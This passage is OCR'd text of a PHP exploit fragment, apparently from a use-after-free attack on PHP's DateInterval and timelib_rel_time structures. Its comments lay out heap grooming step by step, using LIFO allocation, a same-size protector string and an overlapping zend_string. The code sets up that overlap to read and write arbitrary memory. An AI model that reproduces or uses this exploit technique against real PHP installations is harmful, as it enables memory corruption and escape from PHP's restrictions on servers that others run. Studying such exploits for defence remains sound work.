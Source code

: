	# of this structure can be modified easily, meaning we can change the
	# size of abc. This will allow us to read/write memory after abc.
	$this-&gt;abc = ptr2str(0, 79);

	# Create $p meant to protect $this's blocks
	# I: Right after we trigger the UAF, we will unset $p.
	# This means that the timelib_rel_time structure (TRT) of this object
	# will be freed. We will then allocate a string ($protector) of the same
	# size as TRT. Since PHP's heap is LIFO, the string will take the place
	# of the now-freed TRT in memory.
	# Then, we create a new DateInterval object ($x). From the same
	# assumption, every structure constituting this new object will take the
	# place of the previous structure. Nevertheless, since TRT's memory
	# block has already been replaced by $protector, the new TRT will be put
	# in the next free blocks of the same size, which happens to be $abc
	# (remember, |abc| == |timelib_rel_time|).
	# We now have the following situation: $x is a DateInterval object whose
	# internal TRT structure has the same address as $abc's zend_string.
	$p = new DateInterval('PT1S');
